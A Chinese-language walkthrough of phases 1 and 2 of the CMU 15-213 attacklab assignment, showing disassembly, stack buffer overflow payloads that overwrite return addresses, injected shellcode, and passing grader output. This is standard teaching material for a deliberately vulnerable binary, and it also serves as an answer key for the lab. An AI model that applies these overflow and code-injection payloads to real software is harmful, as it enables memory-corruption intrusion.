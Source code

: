 # attacklab

实验分为 5 个阶段，下面对每个阶段进行解析。下面的一些调试信息来源于 `objdump` 、 `gdb-peda` 等软件。强烈安利 `gdb-peda` 和 `pwntools`  ，特别是打 CTF 比赛很有用。

## 阶段 1

阶段 1 很简单，直接把 touch1 的地址写入到返回地址就可以。

从 `getbuf` 汇编可以看到，栈上留的空间是 40 个 字节：

```asm
0000000000401949 <getbuf>:
  401949:       48 83 ec 28             sub    $0x28,%rsp
  40194d:       48 89 e7                mov    %rsp,%rdi
  401950:       e8 7e 02 00 00          callq  401bd3 <Gets>
  401955:       b8 01 00 00 00          mov    $0x1,%eax
  40195a:       48 83 c4 28             add    $0x28,%rsp
  40195e:       c3                      retq
```

所以只要填充 40 个 0，然后写上 touch1 的返回地址就可以了。运行结果：

```
Cookie: 0x5815086a
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target rtarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2017011484:PASS:0xffffffff:rtarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 5F 19 40 00 00 00 00 00
```

## 阶段 2

这一次需要给 rdi 传一个特定的值，在这里是一个定值，为 0x5815086a ，不过也可以从内存地址 0x605524 读（从 touch2 汇编代码可以看出）。于是，在栈上插入了汇编：

```asm
   0x556545b9:  sbb    DWORD PTR [rax+0x0],eax
   0x556545bc:  add    BYTE PTR [rax],al
   0x556545be:  add    BYTE PTR [rax],al
=> 0x556545c0:  mov    rax,0x605524
   0x556545c7:  mov    edi,DWORD PTR [eax]
   0x556545ca:  ret
   0x556545cb:  add    BYTE PTR [rax],al
   0x556545cd:  add    BYTE PTR [rax],al
```

结果：

```
Cookie: 0x5815086a
Type string:Touch2!: You called touch2(0x5815086a)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2017011484:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 45 65 55 00 00 00 00 8B 19 40 00 00 00 00 00 48 C7 C0 24 55 60 00 67 8B 38 C3
```
